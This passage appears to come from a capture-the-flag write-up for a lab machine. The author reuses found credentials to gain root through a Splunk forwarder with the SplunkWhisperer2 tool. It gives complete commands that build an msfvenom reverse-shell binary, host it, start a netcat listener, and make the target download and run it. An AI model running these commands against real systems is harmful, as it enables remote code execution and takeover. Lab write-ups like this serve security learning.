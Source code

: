 ![web11](./doctor/web11.png)

Nice! The credentials `shaun/Guitar123` work! This means that the original exploit mentioned here should work:

- https://book.hacktricks.xyz/linux-unix/privilege-escalation/splunk-lpe-and-persistence#abusing-splunk-forwarders-for-shells-and-persistence
- https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/
- https://github.com/cnotin/SplunkWhisperer2

Download and use the tool:

```bash
# make & host a new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
sudo python3 -m http.server 80
nc -nvlp 7777
# have target download & execute payload
git clone https://github.com/cnotin/SplunkWhisperer2.git
python3 SplunkWhisperer2/PySplunkWhisperer2/PySplunkWhisperer2_remote.py \
  --scheme https \
  --host 10.10.10.209 \
  --port 8089 \
  --username shaun \
  --password Guitar123 \
  --lhost 10.10.14.25 \
  --lport 9999 \
  --payload 'wget -O /dev/shm/bubba.root.elf 10.10.14.25/bubba.root.elf && chmod +x /dev/shm/bubba.root.elf && /dev/shm/bubba.root.elf'
```
